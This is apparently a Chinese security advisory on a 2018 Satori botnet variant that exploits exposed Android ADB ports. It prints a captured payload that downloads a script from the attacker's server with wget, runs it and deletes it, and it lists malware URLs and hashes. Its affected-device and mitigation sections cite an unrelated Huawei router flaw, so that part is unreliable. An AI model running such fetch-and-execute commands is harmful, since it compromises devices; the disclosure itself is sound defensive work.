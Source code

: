 ```yaml
---
layout:     post
title:      最新Satori IoT僵尸网络变种针对ADB服务设备进行攻击通报
subtitle:   ADB服务
date: 2018-08-20
author:     shenzhen_antiylabs
header-img: img/avatar-by.jpg
catalog: true
tags:
    - honeypot_event
---
```


# 最新Satori IoT僵尸网络变种针对ADB服务设备进行攻击通报

## 概述

adb是android sdk里的一个工具，用这个工具可以直接操作管理android模拟器或者真实的android设备(包括一些IOT设备).，它的主要功能有:

\* 运行设备的shell(命令行)

\* 管理模拟器或设备的端口映射

\* 计算机和设备之间上传/下载文件

\* 将本地APK软件安装至模拟器或android设备

攻击手段回顾：

6月份Satori IoT僵尸网络利用D-Link DSL-2750B路由器的RCE（远程执行代码）漏洞，下载站点为95.215.62.169

7月份，安天蜜网监测到新的利用方式，并捕获最新样本，下载站点和此前一致，目前反病毒产品尚未检出，经过分析，我们认为它是新的Satori IoT僵尸网络变种，针对基于adb服务设备的新一轮利用，具体分析如下：

## 漏洞描述

安卓设备的adb远程调试接口5555端口暴露在公网，其中一部分是电视盒，但其他设备尚未确定，有可能是其他使用安卓系统的网络设备。

## 捕获载荷

```
  OPEN............]+......shell:>/sdcard/Download/f && cd /sdcard/Download/; >/dev/f && cd /dev/;busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs.

CNXN............2.......host::.OPEN............]+......shell:>/sdcard/Download/f&& cd /sdcard/Download/; >/dev/f && cd /dev/; busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs.

Adbs文件内容如下：
 
```

![adb.jpg](https://github.com/zhongshendoushuizhao/zhongshendoushuizhao.github.io/blob/master/img/adb.jpg?raw=true)





## 	攻击IP及URL

http://118.193.233.8:4780/dd-wrtlei

http://118.193.233.8:4780/linux2.4lei

http://118.193.233.8:4780/linux2.6lei

http://118.193.233.8:4780/linux-armlei

http://118.193.233.8:4780/linux-mipslei

http://118.193.233.8:4780/immm.exe

## 样本



| 文件名 | 病毒家族 | Hash |
| ------ | -------- | ---- |
|        |          |      |

| dd-wrtlei                 | Trojan[Backdoor]/Linux.Dofloo  | 411327ac98f156a446df3556bb29a05a |
| ------------------------- | ------------------------------ | -------------------------------- |
| Linux2.4lei               | Trojan[Backdoor]/Linux.Dofloo  | 148e9ea2bf1a6e873baec19130b52050 |
| Linux2.6lei               | Trojan[Backdoor]/Linux.Dofloo  | aeffdae8ccb7c86d3868369781b70e14 |
| linux-armlei              | Trojan[Backdoor]/Linux.Dofloo  | 62ef30a8fa91297c2657bc34c3824075 |
| linux-mipslei             | Trojan[Backdoor]/Linux.Dofloo  | d40086b072a5d66d590ecfc18d758618 |
| immm.exe                  | Trojan[DDoS]/Win32.Nitol       | b3ff1a7a453756532ba7dcf1da7f310e |
| 2.txt                     | 存在CVE-2017-17215漏洞的IP列表 |                                  |
| 2018年4月最新内核3306.zip | 3306爆破工具                   |                                  |
| Zeroshell.zar             | 传马工具                       |                                  |

  

## 受影响范围



华为HG532路由器





## 修复及防护建议



2017年11月30日，华为官方发布了安全公告，确认了该漏洞。 公告中提到了以下漏洞缓解措施：

- 配置路由器内置的防火墙
- 更改路由器默认密码
- 在路由器外部署防火墙
- 升级到最新固件



## 参考资料



[1]     华为安全公告

http://www.huawei.com/en/psirt/security-notices/huawei-sn-20171130-01-hg532-en

[2]     Check Point 漏洞报告

https://research.checkpoint.com/good-zero-day-skiddie/
